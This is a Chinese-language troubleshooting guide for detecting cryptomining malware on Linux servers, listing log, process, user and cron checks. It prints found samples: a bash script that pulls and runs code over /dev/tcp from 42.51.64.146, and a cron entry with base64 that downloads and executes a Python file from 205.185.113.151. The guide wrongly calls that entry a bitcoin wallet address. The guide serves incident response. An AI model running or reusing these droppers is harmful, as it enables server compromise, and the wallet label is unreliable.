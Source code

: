 # 挖矿类恶意软件排除

当发现系统CPU使用率飙升时，极有可能是系统中运行了挖矿类恶意软件。


## Linux Server 中的排除思路

- 运行 `top` 命令查看CPU占用率；
- 运行 `history` 命令查看历史记录（有可能已被删除或篡改）；
- 查看连接、登录、进程记录等日志（可能已被删除或篡改）；
  - 若/var/log/cron、/var/log/secure、/var/log/messages、/var/log/maillog、/var/log/spooler都不存在，那么也说明入侵发生了。
- 运行`netstat -ntp`，查看 tcp 端口与对应进程；运行 `netstat -nup` 显示 udp 端口与进程；可结合 grep命令
- 运行 `ps -aux` 查看进程对应程序；
- 查看开放且可能含有漏洞的服务版本号，例如`ssh -v`
- 有docker的，可排查docker容器逃逸漏洞是否被利用
- 查看 `cat /etc/passwd` 文件中是否有嫌疑用户和创建时间
- 查看嫌疑用户所在组，是否被加入 /etc/sudoers 
- 如果是云主机，可以查看云服务商提供的一些记录。
- 查看根目录是否被替换，例如用`chroot 新的根目录`
  - `chroot /mnt` 是将根目录`/`改为`/mnt`
  - `chroot /mnt /bin/sh -c cd /opt/` 是将根目录`/`改为`/mnt`，然后执行/bin/sh解释执行`cd /opt/`

- 查看是否有嫌疑脚本，例如：


```bash

echo '#!/bin/bash' > z.sh
echo 'read proto server path<<<$(echo ${1//// })' >> z.sh
echo 'exec3<>/dev/tcp/42.51.64.146/443' >> z.sh
echo 'echo -en "GET /web2/$1HTTP/1.0\r\nHost: 42.51.64.146:443\r\n\r\n" >&3' >> z.sh
echo '(while read line; do' >> z.sh
echo '[[ "$line" ==$'\''\r'"'"' ]] && break' >> z.sh
echo 'done && cat) <&3'>> z.sh
echo 'exec 3>&-' >> z.sh
bash z.sh zz.sh > zz.sh ; bash zz.sh
rm -rf zz.sh
```

- 对发现的 ip、域名、脚本，进行相关威胁情报查询；例如上传至微步、virustotal等进行分析；
- 查看云服务商提供的安全功能是否运行，何时下线，这说明了攻击者是否关闭或何时关闭了此项服务；
- 查看是否有常见的挖矿脚本，例如在/root/.ssh中出现了xmrig和config.json文件 https://www.dxpool.com/help/zh/kva-mining-tutorial。或许在某个执行环境下可看到全套的挖矿软件，例如在usr/bin中发现了运行着的bash脚本，应该是运行全套挖矿程序的脚步程序。
- 查看下Bash脚本的运行状态以及网络连接情况，`stat bash`
- 查看计划任务文件，是否设置挖矿的计划任务。例如修改了/etc/ssh/sshd_config、/etc/cron.d、/etc/cron.hourly等计划任务文件。
  
例如```crontal -l` 查看/var/spool/cron/root中的内容如下：
```
*/2 * * * * pkill tail >/dev/null2>&1
*/2 * * * * pkill masscan >/dev/null2>&1
# https://anonpasta.rocks/raw/atucewakep
# 205.185.113.151\|cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDUuMTg1LjExMy4xNTEvZC5weSIpLnJlYWQoKSkn（比特币钱包地址）
```